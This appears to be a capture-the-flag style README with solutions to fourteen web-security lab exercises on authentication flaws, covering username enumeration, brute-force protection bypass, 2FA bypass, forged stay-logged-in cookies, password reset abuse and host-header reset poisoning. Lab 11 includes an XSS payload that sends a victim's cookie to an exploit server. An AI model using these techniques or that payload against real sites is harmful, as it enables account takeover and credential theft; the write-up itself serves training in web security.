


<div align='center'>

# **Authentication vulnerabilities**

</div>

## **SQL injection in different contexts**

### **Lab 1:** Username enumeration via different responses

**Solution:** We rely on the respond of the request when we enter the username ('Invalid username' when we enter wrong username, 'Invalid password' when we enter valid username) to enumerate the username. When we get the username, use the wordlist to get the right password. 

**Solution script:** [passLab1.py](./passLab1.py)

### **Lab 2:** Username enumeration via subtly different responses

**Solution:** We rely on the respond of the request when we enter the username ('Invalid username or password.' when we enter wrong username, 'Invalid username or password ' when we enter valid username) to enumerate the username. When we get the username, use the wordlist to get the right password. Solution script: [passLab2.py](./passLab2.py)

### **Lab 3:** Username enumeration via response timing

**Solution:** Use X-Forwarded-For header to bypass IP-brute-force protection. Notice that when we enter valid username, nothing happened. However, when we enter invalid username, the respond time is very long if we enter a very long password. Therefore, we can ultilize that fact to enumerate the username and then use the wordlist to get the password. 

**Solution script:** [passLab3.py](./passLab3.py)

### **Lab 4:** Broken brute-force protection, IP block

**Solution:** We see that if we loggin incorrectly 3 times in a row, the IP address is temporarily blocked. Therefore, we will login 2 times and then login with right credential (wiener:peter). Repeat this process until we get the right password. 

**Solution script:** [passLab4.py](./passLab4.py)

### **Lab 5:** Username enumeration via account lock

**Solution:** We see that if we loggin incorrectly with right account 5 times in a row, the account is temporarily blocked. Therefore, if we login as an invalid username, nothing is blockes. We can ultilize that fact to enumerate the username. When we get the username, use wordlist to find password. If the respond does not contain any error message, the password is right. 

**Solution script:** [passLab5.py](./passLab5.py)

### **Lab 6:** Broken brute-force protection, multiple credentials per request

**Solution:** In the post request to /login endpoint, change to request body to:
```javascript
{
    'username': 'carlos',
    'password': [
        (list of password)
    ]
}
```

**Solution script:** [passLab6.py](./passLab6.py)

## **Vulnerabilities in multi-factor authentication**

### **Lab 7:** 2FA simple bypass

**Solution:** Login as credential carlos:montoya and then change the endpoint to /my-account to access to the Carlos's account page

**Solution script:** [multiLab1.py](./multiLab1.py)

### **Lab 8:** 2FA broken logic

**Solution:** Send a GET request to the /login2 endpoint with cookies:
```javascript
{'verify': 'carlos'}
```
Then brute force for the mfa-code in the POST request to the /login2 endpoint with that same cookies. (mfa-code is between 0000 and 9999)

**Solution script:** [multiLab2.py](./multiLab2.py)

### **Lab 9:** 2FA bypass using a brute-force attack

**Solution:** We see that when enter the wrong code for second authentication twice, we will be logged out. Therefore, we will brute force for the code by attemp one time then login again. Repeat this process until we find the right code

**Solution script:** [multiLab3.py](./multiLab3.py)

## **Vulnerabilities in other authentication mechanisms**

### **Lab 10:** Brute-forcing a stay-logged-in cookie

**Solution:** For each password in the wordlist, caculate md5 hash of the password, we will call it md5(password). Then make a cookie:
```javascript
{'stay-logged-in': base64(carlos:md5(password))}
```
base64(string) is the base64 encoded of a string.

**Solution script:** [otherLab1.py](./otherLab1.py)

### **Lab 11:** Offline password cracking

**Solution:** The format of the cookie is the same as the one from Lab 10. We see that this website is vulnerable to XSS in the comment section


Therefore, we use this payload to steal carlos's cookie

```javascript
<script>document.location="{}/"+document.cookie</script>.format(exploit_server)
```

When we go to the access log of the exploit server, we see a request came from carlos containing his cookie



Decode the cookie using Base64, we get:
```
carlos:26323c16d5f4dabff3bb136f2460a943
```

Using [Crack Station](https://crackstation.net/), we get the password `onceuponatime`

 

**Solution script:** [otherLab2.py](./otherLab2.py)

### **Lab 12:** Password reset broken logic

**Solution:** Make a POST request to endpoint '/forgot-password?temp-forgot-password-token=' with the request body 
```javascript
{
    'temp-forgot-password-token': '', 
    'username' : 'carlos', 
    'new-password-1': '123456', 
    'new-password-2': '123456'
}
```

This will change password of user carlos to 123456. Then login as user carlos with password 123456 to solve the lab

**Solution script:** [otherLab3.py](./otherLab3.py)

### **Lab 13:** Password reset poisoning via middleware

**Solution:** Make a POST request to the endpoint '/forgot-password' with header 
```
X-Forwarded-Host: (your exploit server)
```
and request body
```javascript
{'username': 'carlos'}
```
This will create the URL containing the exploit server's domain and carlos's reset token which will sent to carlos's email. When he click that URL, the request will be recorded in the access log.



When you have a token, go to endpoint '/forgot-password?temp-forgot-password-token=(carlos's token) to reset carlos's password

### **Lab 14:** Password brute-force via password change

**Solution:** Firstly, login as wiener. Then, use brute force with the wordlist to make a POST request to endpoint '/my-account/change-password' with the request body:
```javascript
{
    'username': 'carlos', 
    'current-password': password in the wordlist, 
    'new-password-1': '1', 
    'new-password-2': '2'
}
```
Note that the new-password-1 and new-password-2 has to be different

If the respond contain message 'New passwords do not match', that mean this is a password of the user carlos.

**Solution script:** [passResetLab.py](./passResetLab.py)